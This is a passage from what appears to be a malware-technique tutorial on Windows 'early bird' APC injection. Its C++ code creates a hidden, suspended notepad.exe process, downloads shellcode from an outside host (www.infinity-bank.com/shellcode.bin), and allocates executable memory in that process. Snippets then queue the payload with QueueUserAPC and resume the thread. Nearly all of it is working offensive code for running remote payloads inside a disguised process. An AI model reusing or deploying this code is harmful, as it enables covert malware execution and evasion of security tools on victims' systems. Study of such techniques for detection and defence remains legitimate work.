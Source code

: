 ```
CreateProcess(
NULL,
cmd,
NULL,
NULL,
FALSE,
CREATE_NO_WINDOW | CREATE_SUSPENDED,
NULL,
NULL,
startup_info,
process_info);
```

The process of downloading the shellcode and writing it to the target process can be exactly the same. Instead of CreateRemoteThread call QueueUserAPC and then resume the process:

```
//queue apc
QueueUserAPC(
(PAPCFUNC)ptr,
process_info.hThread,
0);

//resume process
ResumeThread(process_info.hThread);
```

Full Code:

```
// create startup info struct
LPSTARTUPINFOW startup_info = new STARTUPINFOW();
startup_info->cb = sizeof(STARTUPINFOW);
startup_info->dwFlags = STARTF_USESHOWWINDOW;

// create process info struct
PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

// null terminated command line
wchar_t cmd[] = L"notepad.exe\0";

// create process
CreateProcess(
    NULL,
    cmd,
    NULL,
    NULL,
    FALSE,
    CREATE_NO_WINDOW | CREATE_SUSPENDED,
    NULL,
    NULL,
    startup_info,
    process_info);

// download shellcode
std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

// allocate memory
LPVOID ptr = VirtualAllocEx(
    process_info->hProcess,
    NULL,
    shellcode.size(),
    MEM_COMMIT,
    PAGE_EXECUTE_READWRITE);

```